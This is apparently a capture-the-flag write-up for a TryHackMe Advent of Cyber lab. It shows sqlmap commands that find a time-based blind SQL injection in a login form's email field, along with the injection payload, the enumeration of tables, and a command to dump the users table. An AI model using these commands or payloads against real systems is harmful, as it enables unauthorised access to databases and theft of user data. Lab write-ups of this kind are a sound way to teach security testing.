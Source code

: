 Running sqlmap finds the vulnerable fields:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/lapland$ sqlmap -u http://10.10.87.99/register.php --forms --dump --risk=3 --level=5
```

Running the command after some time finds the following:

```bash
[21:49:26] [INFO] POST parameter 'log_email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

```bash
POST parameter 'log_email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 5092 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=kmGF' AND (SELECT 4416 FROM (SELECT(SLEEP(5)))HfqB)-- GZAu&log_password=&login_button=Login
---
```

Exploiting this sqlmap gives us some useful information:

```bash
[21:53:42] [INFO] fetching tables for database: 'social'
[21:53:42] [INFO] fetching number of tables for database 'social'
[21:53:42] [INFO] retrieved: 8
[21:53:47] [INFO] retrieved: comments
[21:54:22] [INFO] retrieved: friend_requests
[21:55:26] [INFO] retrieved: likes
[21:55:48] [INFO] retrieved: messages
[21:56:19] [INFO] retrieved: notifications
[21:57:15] [INFO] retrieved: posts
[21:57:41] [INFO] retrieved: trends
[21:58:09] [INFO] retrieved: users
[21:58:31] [INFO] fetching columns for table 'likes' in database 'social'
[21:58:31] [INFO] retrieved: 3
[21:58:35] [INFO] retrieved: id
[21:58:44] [INFO] retrieved: username
[21:59:16] [INFO] retrieved: post_id
```


### 2 - What is Santa Claus' email address?
For this information we can continue to wait on the previous command to try to dump the entire database, but we know that the database name is `social` and the table name is `users`, so we can just tell sqlmap to drop only that table:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/lapland$ sqlmap -u http://10.10.87.99/register.php --forms --risk=3 --level=5 -D social -T users --dump
```
